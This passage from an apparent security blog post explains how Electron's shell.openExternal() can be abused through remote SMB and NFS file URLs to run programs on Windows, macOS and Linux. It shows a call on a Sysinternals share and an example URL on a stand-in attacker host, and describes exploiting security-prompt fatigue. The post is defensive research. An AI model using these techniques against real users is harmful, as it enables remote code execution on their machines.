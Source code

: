 ## Enter: remote files

We don't have to limit ourselves to local files already on the user's computer, though. Operating systems typically also include support for accessing files on remote file servers. Maybe we can use those to more easily execute arbitrary code? Why yes, yes we can! As I hinted at earlier, the particular attacks depend on the operating system in use, so I will go through the major ones.

### Windows

Windows most notably supports the [SMB/CIFS protocol](https://en.wikipedia.org/wiki/Server_Message_Block). We can access files on a remote SMB server using URLs of the form `\\server\share\path\to\file` (which just maps back to a `file:` URL). For testing, we can conveniently use Microsoft's [Sysinternals Live](https://docs.microsoft.com/en-us/sysinternals/#sysinternals-live) service which hosts all kinds of (harmless) programs on a publicly available SMB server.

So, let's try calling the following:

```js
shell.openExternal('\\\\live.sysinternals.com\\tools\\procmon.exe');
```

And indeed, this will open the Process Monitor program, even though it was never present on the user's disk. Do note however, that a "Security Warning" mentioning the full path is displayed before the program is actually executed. Abusing *security fatigue*, i.e. users being tired of constant security prompts and simply accepting them without further consideration, the attacker could use a specifically crafted host and file name to convince the user to click "Run" there.

<video controls autoplay loop><source src="/vid/shell-openexternal-dangers/windows-samba-sysinternals.mp4" type="video/mp4"></video>

### macOS

While macOS also supports SMB (as well as [AFP](https://en.wikipedia.org/wiki/Apple_Filing_Protocol) and [NFS](https://en.wikipedia.org/wiki/Network_File_System)), trying to open a URL like `smb://attacker.tld/public/exploit.app` with `shell.openExternal()` will merely open Finder with the program selected in recent versions (tested with Catalina). If however, the attacker could somehow convince the user to mount the share themselves, the file would now also be available through `file:/Volumes/public/exploit.app` where it can actually be executed.

Further, macOS previously had an automount feature that would make any NFS export available via `file:/net/attacker.tld/path/to/export`. While this feature has been disabled in Catalina, it continues to work on machines that have not been upgraded yet.

### Linux

On **Linux**, the situation is more complex. The `xdg-open` program, which is used internally by `shell.openExternal()` (see [this section](#digging-deeper-into-how-shellopenexternal-actually-opens-urls)), will usually delegate to the desktop environment's own "open" function, like `gio open` for Gnome. These functions usually don't handle opening executables and will instead either refuse to open them or display them in some other application like a hex editor, if installed.

It is however possible to circumvent this limitation in some cases. On Xubuntu 20.04 running the XFCE desktop, `.desktop` files can be executed using `xdg-open`. Those files can execute arbitrary commands as this simple example shows:
